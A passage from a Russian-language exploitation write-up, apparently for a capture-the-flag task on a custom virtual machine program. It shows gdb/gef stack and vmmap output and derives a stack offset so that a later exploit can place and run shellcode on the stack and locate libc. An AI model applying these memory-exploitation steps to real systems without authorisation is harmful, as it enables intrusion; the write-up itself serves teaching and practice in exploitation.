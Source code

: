 ```c
0x00007fffffffdd88│+0x0158: 0x00007fffffffe10b  →  "SHELL=/bin/bash"	 ← $r13
0x00007fffffffdd90│+0x0160: 0x00007fffffffe11b  →  "SESSION_MANAGER=local/ivanqs-macbook-pro:@/tmp/.IC[...]"
0x00007fffffffdd98│+0x0168: 0x00007fffffffe185  →  "QT_ACCESSIBILITY=1"
0x00007fffffffdda0│+0x0170: 0x00007fffffffe198  →  "COLORTERM=truecolor"
0x00007fffffffdda8│+0x0178: 0x00007fffffffe1ac  →  "XDG_CONFIG_DIRS=/etc/xdg/xdg-gnome:/etc/xdg"
0x00007fffffffddb0│+0x0180: 0x00007fffffffe1d8  →  "SSH_AGENT_LAUNCHER=openssh"
0x00007fffffffddb8│+0x0188: 0x00007fffffffe1f3  →  "XDG_MENU_PREFIX=gnome-"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

На самой верхушке стека лежит явно адрес другого объекта на стеке (это мы понимаем исходя из того, что `0x00007fffff...` в Linux практически всегда соответствует стеку). При запуске программы несколько раз относительное расположение значений на стеке не должно измениться, поэтому если сейчас в gdb мы можем посчитать, что

```c
gef➤  p/d 0x00007fffffffdd78 - (long long)$rsp
$1 = 328
```

то в своем эксплоите мы можем написать

```asm
pop a
sub a 328
```

и быть уверены, что `a` указывает на самое начало стека программы ВЯК. Это явно нам пригодится в будущем, потому что положить шеллкод мы сможем только на стек, а чтобы его запустить, нужно знать, где этот стек вообще находится.

Чтобы понять, где вообще лежит libc, можно использовать `vmmap`:

```c
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /tmp/a.out
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /tmp/a.out
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /tmp/a.out
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /tmp/a.out
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /tmp/a.out
0x0000555555559000 0x0000555555561000 0x0000000000000000 rw- [heap]
0x00007ffff7c00000 0x00007ffff7c22000 0x0000000000000000 r-- /home/ivanq/qrec2/libc.so.6
0x00007ffff7c22000 0x00007ffff7d9b000 0x0000000000022000 r-x /home/ivanq/qrec2/libc.so.6
0x00007ffff7d9b000 0x00007ffff7df2000 0x000000000019b000 r-- /home/ivanq/qrec2/libc.so.6
0x00007ffff7df2000 0x00007ffff7df6000 0x00000000001f1000 r-- /home/ivanq/qrec2/libc.so.6
0x00007ffff7df6000 0x00007ffff7df8000 0x00000000001f5000 rw- /home/ivanq/qrec2/libc.so.6
0x00007ffff7df8000 0x00007ffff7e05000 0x0000000000000000 rw- 
0x00007ffff7fbc000 0x00007ffff7fc1000 0x0000000000000000 rw- 
0x00007ffff7fc1000 0x00007ffff7fc5000 0x0000000000000000 r-- [vvar]
0x00007ffff7fc5000 0x00007ffff7fc7000 0x0000000000000000 r-x [vdso]
0x00007ffff7fc7000 0x00007ffff7fc8000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7fc8000 0x00007ffff7ff1000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ff1000 0x00007ffff7ffb000 0x000000000002a000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffb000 0x00007ffff7ffd000 0x0000000000034000 r-- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000036000 rw- /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```
